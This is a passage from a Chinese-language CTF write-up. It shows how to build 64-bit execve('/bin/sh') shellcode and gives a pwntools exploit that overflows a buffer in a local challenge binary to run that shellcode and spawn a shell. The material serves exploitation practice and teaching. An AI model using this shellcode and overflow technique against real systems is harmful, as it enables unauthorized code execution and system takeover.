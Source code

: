 如64位可以这样构造，函数参数可以看官方文档

> https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md

![image-20230712124938993](PWN/image-20230712124938993.png)

随后将 shellcode 转为 十六进制

> https://shell-storm.org/online/Online-Assembler-and-Disassembler/

那么其他都是老套路了，EXP

```python
p = process('shellcode2')

shellcode = b"\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05"
system_addr = 0x6010A0

p.sendline(shellcode)

payload = b'Z' * 0x12 + p64(system_addr)
p.sendline(payload)
p.interactive()
```

